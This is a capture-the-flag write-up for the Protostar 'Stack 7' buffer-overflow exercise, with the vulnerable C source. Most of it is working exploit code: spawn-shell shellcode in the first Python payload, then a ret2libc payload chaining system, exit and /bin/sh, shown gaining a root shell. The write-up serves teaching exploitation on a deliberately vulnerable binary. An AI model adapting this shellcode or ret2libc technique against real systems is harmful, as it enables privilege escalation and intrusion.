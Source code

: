 # Stack 7

## Problem

```gdb
Dump of assembler code for function getpath:
0x080484c4 <getpath+0>: push   ebp
0x080484c5 <getpath+1>: mov    ebp,esp
0x080484c7 <getpath+3>: sub    esp,0x68
0x080484ca <getpath+6>: mov    eax,0x8048620
0x080484cf <getpath+11>:        mov    DWORD PTR [esp],eax
0x080484d2 <getpath+14>:        call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:        mov    eax,ds:0x8049780
0x080484dc <getpath+24>:        mov    DWORD PTR [esp],eax
0x080484df <getpath+27>:        call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484e7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484ea <getpath+38>:        call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484f2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484f5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484f8 <getpath+52>:        and    eax,0xb0000000
0x080484fd <getpath+57>:        cmp    eax,0xb0000000
0x08048502 <getpath+62>:        jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:        mov    eax,0x8048634
0x08048509 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x0804850c <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x08048510 <getpath+76>:        mov    DWORD PTR [esp],eax
0x08048513 <getpath+79>:        call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x0804851f <getpath+91>:        call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:        mov    eax,0x8048640
0x08048529 <getpath+101>:       lea    edx,[ebp-0x4c]
0x0804852c <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x08048530 <getpath+108>:       mov    DWORD PTR [esp],eax
0x08048533 <getpath+111>:       call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:       lea    eax,[ebp-0x4c]
0x0804853b <getpath+119>:       mov    DWORD PTR [esp],eax
0x0804853e <getpath+122>:       call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:       leave
0x08048544 <getpath+128>:       ret
End of assembler dump.
```

## Idea and Attack process

We try to find the offset for the target by injecting the string below. Based on the segmentation fault message we can deduce that the offset needed is 80bytes.

```gdb
./stack7
>>>input path please: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
>>Program received signal SIGSEGV, Segmentation fault.
>>0x37634136 in ?? ()
```

```python
import struct
filler = "1" * 80
addr_hop = struct.pack("I", 0x08048544)
addr_code = struct.pack("I", 0xbffffcb4+256)
nop = "\x90"*528
code =  "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

print filler+addr_hop+addr_code+nop+code
```

We run the code below and we realise that the exploit is not working even after increase the nop sled. We try to find another way perhaps ret2libc.

```bash
vim stack7_py.py
python stack7_py.py > /tmp/payload
(python stack7_py.py; cat) | ./stack7
```

Lets try to find the address of the lib-c. We use the following commands to obtain the necessary information.

```gdb
info proc map
>>>process 6855
>>>cmdline = '/opt/protostar/bin/stack7'
>>>cwd = '/opt/protostar/bin'
>>>exe = '/opt/protostar/bin/stack7'
>>>Mapped address spaces:
>>>
>>>        Start Addr   End Addr       Size     Offset objfile
>>>         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack7
>>>         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack7
>>>        0xb7e96000 0xb7e97000     0x1000          0
>>>        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
>>>        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
>>>        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
>>>        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
>>>        0xb7fd9000 0xb7fdc000     0x3000          0
>>>        0xb7fde000 0xb7fe2000     0x4000          0
>>>        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
>>>        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
>>>        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
>>>        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
>>>        0xbffeb000 0xc0000000    0x15000          0           [stack]

p system
>>>$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
p exit
>>>$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
```

We note that the base address of lib-c is `0xb7e97000`.

We identify the location of the `system` command in lib-c to invoke it during the attack. The `exit` command is used so that the attack exits gracefully once we exit the shell. The `system` command takes in parameters to run, we want to pass in the `\bin\sh` command to system, one way is to use the address in lib-c that contains it. Through checking lib-c, we find the offset to the string and use it with the base address to obtain the pointer to the string. We should note that the structure of the stack is as follow below which we are trying to emulate. The system call will obtain the parameter 8bytes below ebp, which is past the old ebp and the return address.

```pseudo
function address (system call)
return address (exit call)
parameters (/bin/sh)
```

With the plan in place, we create the following script and run it.

```python
import struct

filler = "1" * 80
addr_hop = struct.pack("I", 0x08048544)
libc_start = 0xb7e97000
string_offset = 0x11f3bf
bin_addr = struct.pack("I", libc_start + string_offset)
system_addr = struct.pack("I", 0xb7ecffb0)
exit_addr = struct.pack("I", 0xb7ec60c0)

print filler + addr_hop + system_addr + exit_addr + bin_addr
```

We run the following script, this time since we want to hold the shell open, we pass in the script as such whereby after the `cat` command, we pass a `-` such that the terminal holds the shell open for us to pass in other commands. Reference `cat` command using `man` -> (cat f - g  Output f's contents, then standard input, then g's contents.)

```bash
whoami
>>>user
vim stack7_py.py
python stack7_py.py > /tmp/payload
cat /tmp/payload - | ./stack7
whoami
>>>root
```

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

